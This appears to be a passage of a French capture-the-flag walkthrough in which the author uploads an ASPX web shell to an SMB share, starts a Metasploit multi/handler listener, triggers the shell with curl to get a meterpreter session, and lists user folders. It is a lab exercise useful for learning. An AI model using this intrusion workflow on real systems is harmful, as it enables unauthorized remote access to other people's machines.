 ```
put shell.aspx

putting file shell.aspx as \shell.aspx (416.5 kb/s) (average 416.5 kb/s)
```
Je lance un meterpreter 

```
msfconsole 

use multi/handler 

set lhost [IP_VPN]

set lport 1234

run
```
j'essaye de récupérer le fichier via la commande curl 

```
curl http://10.10.230.215:49663/nt4wrksv/shell.aspx
```
Hop, j'obtient maintenant un shell meterpreter. 

Je sais que je me trouve dans le dossier : 

```
meterpreter > ls
Listing: c:\windows\system32\inetsrv                                                                                
====================================
```

Je veux voir les utilisateurs présents alors je remonte au dossier "c:/users"
```
meterpreter > ls
Listing: c:\users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  8192  dir   2020-07-25 11:05:52 -0400  .NET v4.5
040777/rwxrwxrwx  8192  dir   2020-07-25 11:05:49 -0400  .NET v4.5 Classic
040777/rwxrwxrwx  8192  dir   2020-07-25 13:30:12 -0400  Administrator
040777/rwxrwxrwx  0     dir   2016-07-16 09:34:35 -0400  All Users
040777/rwxrwxrwx  0     dir   2020-07-25 17:03:44 -0400  Bob
040555/r-xr-xr-x  0     dir   2020-07-25 13:55:45 -0400  Default
040777/rwxrwxrwx  0     dir   2016-07-16 09:34:35 -0400  Default User
040555/r-xr-xr-x  4096  dir   2020-07-25 10:58:09 -0400  Public
100666/rw-rw-rw-  174   fil   2016-07-16 09:21:29 -0400  desktop.ini
```
Je sais qu'il y a 2 utilisateurs qui m'intéressent, **Bob** et **Administrator**
Je vais commencer par rentrer dans le dossier de Bob 

```
meterpreter > cd Bob
lsmeterpreter > ls
Listing: c:\users\Bob
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2020-07-25 17:04:05 -0400  Desktop

meterpreter > cd Desktop\\
meterpreter > ls
Listing: c:\users\Bob\Desktop
```